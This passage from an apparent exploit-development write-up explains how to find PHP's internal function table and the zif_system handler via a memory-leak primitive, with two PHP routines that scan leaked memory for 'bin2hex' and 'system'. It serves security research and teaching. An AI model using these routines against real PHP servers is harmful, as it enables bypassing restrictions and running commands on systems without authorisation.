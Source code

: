 So the first member is a pointer to a string that contains the function name, and the next member is a handler to that function. In order to identify a member of the `basic_functions` structure we can follow the next approach:

1. Read 8 bytes from an address ---> Interpret those bytes as a pointer --> Read 8 bytes at the pointed memory
2. Does the 8 bytes match our needle (bin2hex function name) ? If it doesn't, increase the address by 8 and repeat __1__

It can be translated to:

```php
private function get_basic_funcs($base) {
    for ($i = 0; $i < 0x6700/8; $i++) {
        $leak = $this->leak($base - $i * 8);
        if (($base - $leak) > 0 && ($leak & 0xfffffffff0000000 ) == ($base & 0xfffffffff0000000 )) {
            $deref = $this->leak($leak);
            if ($deref != 0x6e69623278656800){ // 'nib2xeh\x00' ---> bin2hex
                continue;
            }
        } else continue;
        return $base - ($i-2) * 8;
    }
}
```

Once we have found where the `zend_function_entry` that holds the information for `bin2hex()` is located, we can repeat the process to locate the handler for `zif_system`:

```php
    private function get_system($basic_funcs) {
    $addr = $basic_funcs;
    $i = 0;
    do {
        $f_entry = $this->leak($addr-0x10);
        $f_name = $this->leak($f_entry);
        if ($f_name == 0x736500646d636c6c) { //'se\x00dmcll'
            return $this->leak($addr + 8-0x10);
        }
        $addr += 0x20;
        $i += 1;
    } while ($f_entry != 0);
    return false;
}
```

Another aproach to locate the `zif_system` handler could be to just apply a pre-known offset to the `zend_function_entry` for `bin2hex` because the entries in the array are ordered.


# [Van Halen - Jump](https://www.youtube.com/watch?v=SwYN7mTi6HM)
